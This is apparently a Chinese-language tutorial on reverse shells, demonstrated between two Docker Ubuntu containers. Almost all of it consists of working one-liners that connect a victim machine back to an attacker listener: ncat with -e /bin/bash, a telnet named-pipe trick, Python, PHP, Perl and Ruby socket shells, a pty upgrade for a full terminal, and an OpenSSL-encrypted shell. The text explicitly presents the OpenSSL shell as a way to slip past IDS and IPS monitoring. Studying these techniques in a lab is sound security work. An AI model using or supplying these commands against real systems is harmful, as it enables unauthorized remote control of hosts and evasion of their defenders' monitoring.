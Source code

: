 ## 反弹shell

### 1. 利用netcat反弹shell

需要两台linux，这里用docker起了两个ubuntu。netcat在一般的linux发行版都有，不过在ubuntu上需要使用npm构建的ncat。

```shell
apt install ncat
```

起的两个ubuntu上，一个作为攻击机，一个作为目标机。
其中在攻击机上输入：
```shell
ncat -lvvp 2333
```
开启本地监听

在victim上：
```shell
ncat 172.17.0.2 2333 -e /bin/bash
```
没有bash用sh，ncat后跟的是攻击机的ip和监听的端口

随后在攻击机上即可反弹shell，效果如下

![](netcat_reverse_shell.png)
可以看到，在目标机上执行了ncat操作，反弹shell到攻击机，其中
```shell
ls
```
是我在攻击机上弹shell成功后输入的命令。

### 2. 利用telnet弹shell

与ncat上类似，在攻击机上开启端口监听：
```shell
ncat -lvvp 2333
```

然后目标机主动连接攻击机：
```shell
mknod a p; telnet 172.17.0.2 2333 0<a | /bin/bash 1>a
```
![](telnet_reverse_shell_2.png)

其中，
```shell
whoami
ls
```
是弹shell后输入的命令

### 3. python反弹shell

提示没python先安装python
```shell
apt install python3
```

攻击机上开启端口监听

```shell
ncat -lvvp 2333
```

目标机主动连接攻击机

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.2",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

会直接出现sh提示符，如图：

![](python_reverse_shell.png)

其中

```shell
ls
whoami
ifconfig
```
为反弹shell后输入的命令，可以看到ip显示的是目标机的172.17.0.3。

#### 同理，php/perl/ruby 等脚本都可以反弹shell
#### 命令分别为：
```shell
php -r '$sock=fsockopen("172.17.0.2",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```shell
perl -e 'use Socket;$i="172.17.0.2";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```shell
ruby -rsocket -e 'c=TCPSocket.new("172.17.0.2","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
或
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.17.0.2","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 4. 获取完整终端

之前几个demo演示中，反弹得到的bash或者sh都是不完整的终端，即使获取了控制权限，但是由于显示不完整，不能通过passwd修改密码等。
所以可以通过python的pty标准库来获取一个完整的虚拟终端。

```shell
python3 -c "import pty;pty.spawn('/bin/bash')"
```
通过该命令即可模拟一个终端设备。
![](get_complete_console.png)
可以看到，终端id和目标机的也一样，ip等其他的也一样。

### 5. 通过OpenSSL反弹加密shell

在上文我们总结了很多反弹shell得方法，但是这些reverse-shell的方式都有一个缺点，那就是所有的流量都是明文传输的。
这些通过shell通过传输的流量都可以被管理员直接抓取并理解，当目标主机网络环境存在网络防御检测系统时(IDS、IPS等)，网络防御检测系统会获取到我们的通信内容并进行告警和阻止。
因此，我们需要对通信的内容进行混淆或加密，这时可以选择使用 OpenSSL 反弹一个加密的 shell。

首先，在攻击机和目标机上都去生成一个自签名证书
```shell
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```
![img.png](self_signed_certificate.png)
一路回车即可

然后在攻击机上开启端口监听(这里不再使用ncat)
```shell
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
```
此时OpenSSL就在攻击机上开启了一个SSL/TLS的2333端口的server

之后，在目标机上进行reverse_shell：
```shell
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 172.17.0.2:2333 > /tmp/s; rm /tmp/s
```
![img.png](reverse_shell_via_ssl.png)
这样便在攻击机上通过OpenSSL反弹了了一个目标机的一个加密shell。




#### 参考资料
https://drun1baby.github.io/2022/07/20/%E5%8F%8D%E5%BC%B9shell%E5%AD%A6%E4%B9%A0/



